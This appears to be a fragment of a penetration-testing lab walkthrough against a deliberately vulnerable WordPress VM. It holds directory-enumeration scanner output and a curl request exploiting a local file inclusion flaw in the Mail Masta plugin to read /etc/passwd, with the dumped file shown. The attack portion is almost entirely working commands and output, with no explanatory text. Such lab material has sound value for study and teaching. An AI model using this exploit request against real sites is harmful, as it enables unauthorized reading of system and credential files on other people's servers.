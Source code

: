 ---- Entering directory: http://vulnvm.local/wp/wp-admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                     
---- Entering directory: http://vulnvm.local/wp/wp-admin/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                     
---- Entering directory: http://vulnvm.local/wp/wp-admin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                     
---- Entering directory: http://vulnvm.local/wp/wp-admin/maint/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                     
---- Entering directory: http://vulnvm.local/wp/wp-admin/network/ ----
+ http://vulnvm.local/wp/wp-admin/network/admin.php (CODE:302|SIZE:0)                                
+ http://vulnvm.local/wp/wp-admin/network/index.php (CODE:302|SIZE:0)                                
                                                                                                     
---- Entering directory: http://vulnvm.local/wp/wp-admin/user/ ----
+ http://vulnvm.local/wp/wp-admin/user/admin.php (CODE:302|SIZE:0)                                   
+ http://vulnvm.local/wp/wp-admin/user/index.php (CODE:302|SIZE:0)                                   
                                                                                                     
---- Entering directory: http://vulnvm.local/wp/wp-content/languages/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                     
---- Entering directory: http://vulnvm.local/wp/wp-content/plugins/ ----
+ http://vulnvm.local/wp/wp-content/plugins/index.php (CODE:200|SIZE:0)                              
                                                                                                     
---- Entering directory: http://vulnvm.local/wp/wp-content/themes/ ----
+ http://vulnvm.local/wp/wp-content/themes/index.php (CODE:200|SIZE:0)                               
                                                                                                     
---- Entering directory: http://vulnvm.local/wp/wp-content/upgrade/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                     
---- Entering directory: http://vulnvm.local/wp/wp-content/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Mon Oct  4 21:44:21 2021
DOWNLOADED: 36896 - FOUND: 13
                                         
└─$ curl http://192.168.110.54/wp/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
